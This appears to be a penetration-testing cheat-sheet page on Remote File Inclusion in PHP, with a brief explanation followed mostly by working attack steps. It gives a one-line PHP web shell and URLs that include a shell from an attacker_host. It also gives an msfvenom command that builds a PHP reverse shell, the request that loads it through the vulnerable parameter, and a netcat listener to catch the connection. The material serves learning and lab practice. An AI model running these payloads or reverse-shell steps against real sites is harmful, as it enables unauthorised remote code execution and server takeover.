 # Remote File Inclusion (RFI)

## Remote File Inclusion

Remote File Inclusion or RFI occurs when a website allows the inclusion of remotely hosted files. The impact of this vulnerability can be low or high, depending on the server's configuration.

In PHP the functions `allow_url_fopen` setting (enabled by default) and `allow_url_include` setting have to be turned on in the php configuration file.&#x20;

### Vulnerable Code

PHP vulnerable code:

```php
<?php system($_GET['cmd']); ?>
```

We can include a remote file from our server:

```
http://victim.vmx/index.php?param=ftp://user:pass@attacker_host/shell.php&cmd=id
http://victim.vmx/index.php?param=http://attacker_host/shell.php&cmd=id
```

### Finding RFI

Looking at the part `index.php?param=<Value>` we can test for RFI to see if vulnerable. I created a test.txt file on my attacking machine and then hosted the directory with a `Python SimpleHTTPServer`. Then browsed to the following:

```
http://192.168.230.53:8080/site/index.php?param=http://<YOUR_IP>/test.txt
```

As we know we are running PHP we can generate a PHP reverse shell with `msfvenom` in order to catch a reverse shell using the RFI.

```
msfvenom -p php/reverse_php LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f raw > phpreverseshell.php
```

Host this in the same directory as the `Python SimpleHTTPServer` and ensure the listening port is set to 21. Then in the browser browse to the shell we just generated.

```
http://192.168.230.53:8080/site/index.php?param=http://<YOUR_IP>/phpreverseshell.php
```

Receive a shell:

```
sudo nc -lvp 21
```

